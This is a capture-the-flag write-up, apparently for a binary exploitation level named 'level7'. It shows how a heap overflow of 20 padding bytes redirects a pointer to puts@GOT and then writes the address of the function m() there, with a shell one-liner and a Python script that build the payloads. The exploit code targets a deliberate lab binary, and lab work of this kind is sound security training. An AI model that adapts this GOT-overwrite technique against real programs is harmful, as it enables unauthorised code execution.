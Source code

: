 
## 🔨 Exploit Chain Development

### Payload Architecture

```python
# Exploitation components:
payload1 = padding + target_got_address
payload2 = target_function_address

# Specific values:
padding = "A" * 20                    # Fill buffer + reach var2->field2 pointer
target_got_address = "\x28\x99\x04\x08"   # puts@GOT address (little-endian)
target_function_address = "\xf4\x84\x04\x08"  # m() function address (little-endian)
```

### Address Conversion Analysis

#### puts@GOT Address Conversion
- **Big-endian**: `0x08049928`
- **Little-endian**: `\x28\x99\x04\x08`

#### m() Function Address Conversion  
- **Big-endian**: `0x080484f4`
- **Little-endian**: `\xf4\x84\x04\x08`

---

## 🧪 Payload Construction

### Method 1: Command Line Execution

```bash
./level7 $(python -c 'print "A"*20 + "\x28\x99\x04\x08"') $(python -c 'print "\xf4\x84\x04\x08"')
```

### Method 2: Detailed Python Script

```python
#!/usr/bin/env python2

# Target addresses
puts_got = 0x08049928      # puts@GOT entry location
m_function = 0x080484f4    # m() function address

# Convert to little-endian
def to_little_endian(addr):
    return ''.join([chr((addr >> i) & 0xFF) for i in range(0, 32, 8)])

# First payload: overflow to overwrite var2->field2 pointer
padding = "A" * 20
got_addr_bytes = to_little_endian(puts_got)
payload1 = padding + got_addr_bytes

# Second payload: address to write into GOT
payload2 = to_little_endian(m_function)

print "First argument:", repr(payload1)
print "Second argument:", repr(payload2)
print
print "Command:"
print './level7 "%s" "%s"' % (payload1, payload2)
```

